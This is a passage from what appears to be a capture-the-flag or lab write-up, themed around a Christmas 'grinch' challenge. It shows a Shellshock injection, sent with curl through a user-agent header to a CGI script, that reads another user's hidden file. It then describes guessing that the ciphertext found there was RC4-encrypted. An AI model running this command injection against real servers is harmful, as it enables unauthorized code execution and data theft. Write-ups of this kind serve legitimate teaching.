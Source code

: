```shell
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .siegedom.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .stembvac.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .stiplsta.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .svobovo7.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .sykorkry.txt
-rw-rw-r-- 1 1000 1000  356 Dec 20 14:30 .tomanpe9.txt
-rw-rw-r-- 1 1000 1000  350 Dec 20 14:30 .trmaljak.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .vacajaku.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .vankope6.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .volfoane.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .votroto1.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .zachtoma.txt
-rw-rw-r-- 1 1000 1000  350 Dec 20 14:30 .zlamaann.txt
-rw-rw-r-- 1 1000 1000  128 Dec 20 16:18 XmasPresent.txt

root@ubuntu8:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/grinch/.horovtom.txt;'" http://192.168.1.127:8080/cgi-bin/stats

[a-zA-Z0-9]{3} symetric:
daf1ab1e200d6ed16dda7f2eacf6ac4af8f204275527a0ee79267c79faa7855ea81680396896564d51a1602afb303b533319c71c882783c12af5328bb80d9ad343a19479974699a2d789fe035bf268f9df056d25847873c118e98b78b8de2e73b06a7935e1656601c81160a5c093ca3a20e47a9a4a8f6a36910398b1ed2166373b0a3433403444aa59cf34dd56353f19ea3b51224eb952d93910d761d9a79972192f4ea3
```

So I found something that looks like some cipher. Judging by the hint on the first line, it is gotta be some symetric cipher. The first part is a regex, that will select the first 3 letters of some alphanumeric string. Going through the list of various symmetric ciphers I noticed that a great deal of them were 3-letters. This might have been the purpose of this hint. I had a feeling, that the passphrase for the cipher might be my personal token, because the cipher was in a file with my name. I tried various three-lettered symmetric c ciphers, but most of them needed something else than the passcode. After a while I tried the RC4 cipher and got a deciphered string:
